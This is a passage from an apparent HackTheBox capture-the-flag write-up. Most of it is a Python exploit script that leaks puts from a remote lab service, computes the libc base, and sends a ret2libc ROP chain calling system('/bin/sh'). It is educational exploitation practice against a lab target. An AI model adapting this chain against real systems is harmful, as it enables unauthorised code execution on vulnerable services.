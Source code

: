 Lucky us! the offset was actually `0x18cd17` and not what the libc database said.
Let's re-run the script with the new offset

Our final script

```Python
import struct
import socket
import binascii

def ptr(n):
    return struct.pack("Q", n)

def compute_libc_base_from_puts(puts_va):
    # remote machine uses libc v2.23
    puts_offset_in_libc = 0x6f690
    return puts_va - puts_offset_in_libc

def remote(data):
    remote_address = (("docker.hackthebox.eu",35076))
    conn = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

    print "connecting to ", remote_address
    conn.connect(remote_address)

    # server's initial message: "ROP ME outside..."
    print conn.recv(1024)

    print "connected. sending data"
    conn.send(bytes(data + "\n"))

    ans = conn.recv(1024)
    print ans

    # Only take the 7 first bytes of the input
    # Because the rest of it will be "ROP Me outside ..." again
    # we don't care about that, we care about the address only
    ans = ans[:7]      
    ans = ans[:-1]  # omit the 0a
    ans = ans[::-1]  # reverse the order

    print "Virtual address of puts is: 0x" + binascii.hexlify(ans)

    libc_base = compute_libc_base_from_puts(int(binascii.hexlify(ans), 16))
    print "Base of libc:", hex(libc_base)
    print "Address of system: ", hex(libc_base + 0x45390)
    print "Address of binsh: ", hex(libc_base + 0x18cd17)  # fixed this

    # Craft new payload

    payload2 = PAD                      # 72 bytes of "A"s

    payload2 += gadget_pop_rdi_ret      # return there when done with main

    # Address of "/bin/sh", this will be popped to RDI
    payload2 += ptr(libc_base + 0x18cd17)

    # Address of system. return here after you pop
    payload2 += ptr(libc_base + 0x45390)
    # payload2 += puts_plt   

    # Send the payload
    conn.send(payload2 + "\n")

    # Send a command to system
```

[1]: https://linux.die.net/man/3/puts
[2]: https://linux.die.net/man/3/fflush
[3]: https://linux.die.net/man/3/fgets
[4]: https://libc.blukat.me